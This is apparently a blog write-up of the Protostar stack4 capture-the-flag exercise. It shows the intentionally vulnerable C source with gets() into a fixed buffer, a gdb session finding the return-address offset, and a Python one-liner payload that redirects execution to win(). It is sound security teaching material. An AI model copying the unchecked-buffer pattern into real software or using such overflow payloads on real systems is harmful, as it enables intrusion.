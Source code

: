 ```yaml
---
layout: post
title: "Protostar stack04 writeup"
tags: [protostar]
comments: false
---
```


This challenge gives out a source code

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Unlike the other protostar challenges before, we're not midifying any values but just calling this function.
We need to get the offset for buffer[64] and add 4 to that offset in order to skip the saved frame pointer.

to calculate the offset, first you get the starting of the address of $esp for the get function then subtract that from the base value

```
root@protostar:/opt/protostar/bin# gdb -q stack4
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) disas main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   %ebp
0x08048409 <main+1>:    mov    %esp,%ebp
0x0804840b <main+3>:    and    $0xfffffff0,%esp
0x0804840e <main+6>:    sub    $0x50,%esp
0x08048411 <main+9>:    lea    0x10(%esp),%eax
0x08048415 <main+13>:   mov    %eax,(%esp)
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave  
0x0804841e <main+22>:   ret    
End of assembler dump.
(gdb) b *main+21
Breakpoint 1 at 0x804841d: file stack4/stack4.c, line 16.
(gdb) r
Starting program: /opt/protostar/bin/stack4 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffffd54) at stack4/stack4.c:16
16      stack4/stack4.c: No such file or directory.
        in stack4/stack4.c
(gdb) x/10x $esp
0xbffffc50:     0xbffffc60      0xb7ec6165      0xbffffc68      0xb7eada75
0xbffffc60:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc70:     0x41414141      0x41414141
(gdb) p $ebp
$1 = (void *) 0xbffffca8
(gdb) 
```

Here, you can see the star is 0xbffffc60 and the base is 0xbffffca8. 0xbffffca8-0xbffffc60+4 = 76

As the same from stack03, this cahllenge also contains a win() function where the address is

```
root@protostar:/opt/protostar/bin# objdump -t stack4 | grep win
080483f4 g     F .text  00000014              win
```

so the exploit will be

```
root@protostar:/opt/protostar/bin# (python -c 'print "A"*76+"\xf4\x83\x04\x08"') | ./stack4
code flow successfully changed
Segmentation fault
```